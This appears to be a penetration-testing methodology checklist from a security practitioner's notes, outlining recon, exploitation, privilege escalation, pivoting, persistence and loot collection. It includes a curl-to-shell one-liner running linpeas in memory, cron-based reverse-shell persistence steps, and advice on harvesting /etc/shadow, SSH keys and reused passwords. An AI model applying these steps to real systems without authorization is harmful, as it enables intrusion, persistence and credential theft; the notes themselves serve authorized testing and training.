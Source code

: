 # Pentest Process

### Scoping (Comes directly from client)

- This information will be found in the SoW (Scope of Work) and will be in the form of a list of hostnames/IP's

### Recon (passive and active, OSINT & Scanning)

#### passive (Googling/OSINT/HUMINT)

<----------------------> 

Line in the Proverbial Sand|Federal Offense Territory

#### active (Make sure machine is online/finding other machines, find open ports, look for vulnerable services/webpage)

- ([Ping Sweep](./ping_sweep.md) (-sn/for loop one-liner/arp -a){this is how we verify where other machies are on the network} 
- NMap (fast,service,all scans){This is how we find open ports on targets}
- Vuln Assessment (Openvas, Nessus){These can be used to find Low Hanging Fruit on an engagement}
- phishing/social engineering)
- (Brute forcing accounts/emails)

### Exploitation 

- Find vulnerability via scanned service by further enumerating any open ports that you find, otherwise you have to create/find your own zero-day
- find exploit Proof of Concept (PoC) code/payload via Google or seachsploit 
- [catch a reverse shell](https://github.com/Gadoof/Gadoof/blob/main/reverse_shell_playbook.md#basic-reverse-shell)
- [upgrade your shell](https://github.com/Gadoof/Gadoof/blob/main/reverse_shell_playbook.md#enable-fully-interactive-shell)
	- Remember that this process is dangerous if you're using an unstable exploit!

### Post-Exploitation

#### - [priv esc](./priv_esc_playbook) = get to root

- linpeas/winpeas
    - Be sure to be running screen/tmux, use logging (ctr + a; H) to catch the output of this next command
    - curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh == will run in memory, should help with bypass for basic tools
    - Can also host with a simple python web server or utilizing SMB to run in memory

#### - pivoting = 

- check arp cache = good for a static check against a local cache of targets; not thorough, especially against segmented VLANs
- [ping_sweep](./ping_sweep.md) = how we find internal targets, ran from victim1
- [proxychains from Kali](./pivoting_playbook.md) = how we interact with internal targets

#### - persistence = setup a way for the box to always send you a reverse shell

- This process becomes PRIORITY if you're using an unstable exploit, you do this before you upgrade!
- Will need a fully functional shell to get this step to work...
	- Find your favorite reverse shell and validate that it works from the victim back to your attacker machine
	- sudo crontab -e
	- add in 5 "*" with spaces between each and before your reverse shell
	- save that and then open your reverse shell to catch a rev shell every minute from the victim

#### - data exfil = loot 

- hard coded passwords
	- Check servies that are running to see if anything like a database might be running; it's possible that you may be able to read some of those config files and they often will utilize hard coded passwords for the service accounts to access the database
- ssh/rsa keys
	- These can be used to potentially perform priv esc if the key itself doesn't require a password/passphrase
- hashed passwords in /etc/shadow) 
	- Cracking passwords that are from real engagements can be difficult, our expectation is something like 1% real world; so if i have 100 users I will likely crack one password/account
- ctf flags
	- Often located in a users home directory as flag.txt or a root users home directory (/root) as root.txt 
- look for password reuse attack opportunities
	- Probably the most important aspect of post exploitation; you should be gathering usernames/passwords throughout the engagement and attempting them against other services, even services that you've already attempted to hack. 
